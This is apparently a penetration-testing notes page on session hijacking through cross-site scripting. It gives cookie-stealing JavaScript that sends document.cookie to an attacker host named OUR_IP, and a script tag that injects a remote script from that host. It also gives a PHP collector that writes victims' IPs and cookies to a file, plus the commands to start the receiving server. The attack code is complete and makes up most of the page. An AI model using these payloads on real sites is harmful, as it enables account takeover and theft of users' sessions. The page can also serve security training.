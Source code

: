 # Session hijacking

:::note
Session hijacking is also called __Cookie Stealing__.
:::

## Overview

Modern web applications utilize cookies to maintain a user's session throughout different browsing sessions. If a malicious user obtains the cookie data from the victim's browser, they may be able to gain logged-in access with the victim's user without knowing their credentials.

Once we find a working XSS payload and have identified the vulnerable input field, we can proceed to XSS eploitation and perform a _session hijacking_ attack.

## Attack example

Create a `script.js` with either of the following examples:

```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

Then use XSS to inject the remote script into the vulnerable input field:

```html
<script src=http://OUR_IP/script.js></script>
```

We can write a PHP script to split cookies with a new line and write them to a file. In this case, even if multiple victims trigget the XSS exploit, we'll get all of their cookies ordered in a file:

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Start the PHP server:

```console
$ mkdir /tmp/tmpserver
$ cd /tmp/tmpserver
$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

And then just wait for the victim to trigger the XSS exploit. When this happens, we'd see a call in our server. We can check the `cookies.txt` file to see if we got the cookie.
